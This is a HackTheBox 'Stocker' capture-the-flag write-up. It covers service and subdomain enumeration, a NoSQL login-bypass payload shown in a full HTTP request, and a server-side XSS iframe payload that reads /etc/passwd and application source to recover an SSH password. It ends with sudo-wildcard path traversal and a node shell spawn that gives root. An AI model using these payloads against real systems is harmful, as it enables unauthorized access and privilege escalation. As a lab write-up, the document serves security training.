 ```yaml
---
description: HackTheBox Stocker Writeup
cover: ../.gitbook/assets/image (2) (1).png
coverY: 0
---
```


# \[Easy] Stocker

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>Machine stats</p></figcaption></figure>

### Recon <a href="#recon" id="recon"></a>

#### Services <a href="#services" id="services"></a>

`nmap`: **22 - SSH** and **80 - nginx**.

```nmap
PORT      STATE  SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|  3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|  256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp    open  http        nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
| http-methods:
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

#### Subdomains <a href="#subdomains" id="subdomains"></a>

`gobuster`: dev.stocker.htb

```bash
➜  ~ gobuster vhost --url http://stocker.htb/ --wordlist ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 100
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb/
[+] Method:          GET
[+] Threads:         100
[+] Wordlist:        /home/ennl/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/07 19:01:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```

#### Website <a href="#website" id="website"></a>

So, we have plain `stocker.htb` page without anything, and subdomain page `dev.stocker.htb` with redirect to `dev.stocker.htb/login`.

### Exploitation <a href="#exploitation" id="exploitation"></a>

#### Authentication bypass via NoSQL <a href="#authentication-bypass-via-nosql" id="authentication-bypass-via-nosql"></a>

[https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

I found that the login is susceptible to NoSQL Authentication Bypass after experimenting with various methods. We can bypass auth using

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

so, POST-request in BurpSuite gonna be look like:

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AglWx1W4l6AXfs4gYZq-X2EzGPvkRAknn.aTADasosaVSVpIrCRQR6U5P%2BRe8JeRJwk6aNyTMXe1Q
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf

{"username": {"$ne": null}, "password": {"$ne": null} }
```

Once the request has been modified, you get an auth bypass:

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

In browser:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Client-Side XXS <a href="#client-side-xxs" id="client-side-xxs"></a>

Now, via page `/stock` add product to basket and intercept HTTP-request with BurpSuite.

![](../.gitbook/assets/image.png)

We have an API `/api/order` to make an order, which sends the \`\`\`basket" as a parameter.

And order details are available on /api/po/ID.V

`/api/order` is a dynamic PDF generator, which has vulnerable to Server Side XSS parameter `title`.

{% embed url="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf" %}

```
{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"<iframe src=file:///etc/passwd height='1500'  width='700' ></iframe>","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":3}]}
```

Response:



Doing same with `file:///var/www/dev/index.js` we get user SSH password.

![1.png](http://localhost:1313/stocker/4.png)

### Privelege Escalation <a href="#privelege-escalation" id="privelege-escalation"></a>

`sudo -l`:

```bash
angoose@stocker:~$ sudo -l 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

We got a wildcard in the path, which means we can put another path in place of that wildcard, but we still should use node.js.

[https://gtfobins.github.io/gtfobins/node/](https://gtfobins.github.io/gtfobins/node/)

Create a `root.js` in user dir:

```bash
angoose@stocker:~$ nano root.js

node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Then, start it by:

```bash
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/root.js
```

And get the root:

```bash
bash-5.0# cat /root/root.txt

f7723bd4b96f3cd26788fcb4f4714b08

```
